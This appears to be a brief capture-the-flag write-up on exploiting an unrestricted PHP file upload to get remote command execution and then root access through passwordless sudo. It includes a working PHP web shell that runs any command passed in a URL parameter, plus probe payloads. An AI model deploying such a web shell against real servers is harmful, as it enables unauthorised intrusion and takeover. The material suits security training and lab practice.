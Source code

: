 # Analysis
There is a file upload module.
![](Pasted%20image%2020250506103139.png)
Try upload file who load php info.
```
<?php phpinfo(); ?>
```
It responsed with path location of the uploaded file.
![](Pasted%20image%2020250506105450.png)
Try to access the the path. And it response with also with php info. it shows that it potentially had file upload vulnerability dan may be can also have command injection and RCE too (I hope).
![](Pasted%20image%2020250506105654.png)
# Exploitation
Try upload php file who execute linux command, and it works!.
```
<?php system('ls -lha');?>
```
![](Pasted%20image%2020250506110319.png)

Try upload RCE, it works
```
<?php
$command = isset($_GET['command']) ? $_GET['command'] : '';
$output = [];
$return_var = 0;
exec($command, $output, $return_var);
echo '<h1>Exploiting RCE</h1>';
echo 'Command: '.$command;
echo '\n<pre>';
echo implode("\n", $output);
echo '</pre>';
?>
```
![](Pasted%20image%2020250506111251.png)

Check sudo -l, no password at all
![](Pasted%20image%2020250506111735.png)

access /root to get flag
![](Pasted%20image%2020250506111915.png)

# Conclusion
Knowledge need to know:
- File upload vulnerability
- PHP
- Linux command
- RCE

**Hurray! You solved this challenge.**
